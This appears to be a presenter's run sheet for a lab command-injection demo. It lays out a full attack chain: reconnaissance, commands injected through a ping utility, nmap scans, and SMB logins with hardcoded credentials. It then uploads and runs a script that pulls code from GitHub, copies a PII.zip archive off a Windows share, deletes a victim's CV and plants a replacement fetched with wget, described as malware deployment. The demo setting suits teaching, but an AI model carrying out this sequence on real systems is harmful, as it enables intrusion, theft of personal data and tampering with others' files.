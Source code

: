 Command Injection Demo:
=======================

Academic:
=========
    Dig through DNS
    Port scan IPs
    Interrogate IP
	HTTP Watch/Fiddler/Postman/Wireshark
	Headers can indicate the stack


Commands:
==========
    Login: wier credentials to connect.hackysock.com
    Browse site… Exploratory work
    Over to the ping utility
        note the command injection flaw.
	    whoami
	    pwd
	    cd ../../
	    ls
	    ifconfig -a | grep netmask
	    which nmap
	    nmap -sP 192.168.122.1/24
	    namp -p 135 192.168.122.7
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:
====================
    Upload file: Note the path description
	Figure out where uploads go
	Upload script
	CHMOD script
		chmod 775 ../../hackable/uploads/pull_scripts.sh
	Execute script
		../../hackable/uploads/pull_scripts.sh
	Show all the scripts that were pulled down from GitHub

Drop to Shell:
=================
Show rest of demo and malware deployment.\
	Execute pii script\
	Show pii data pulled from windows machine\
    Show Roger DOC\
        smbclient '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3\
    pull roger doc at CLI\
        smbclient '//192.168.122.7/Private_Files' -c 'lcd /var/tmp; get PII.zip' -W HACYSOC -U wier%frantic-Folly3\
    Push new DOC to FileShare
        smbclient '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3\
        Browse to Roger DOC in Private_Files\
        del rogeradamsCV.doc\
        exit\
        cd /var/tmp\
        wget https://github.com/rnewt6926/Ingram/blob/main/rogeradamsCV.doc\
        smbclient '//192.168.122.7/Private_Files' -c 'lcd /var/tmp; put rogeradamsCV.doc' -W HACKYSOC -U wier%frantic-Folly3\






Wrap up:
========

Narrative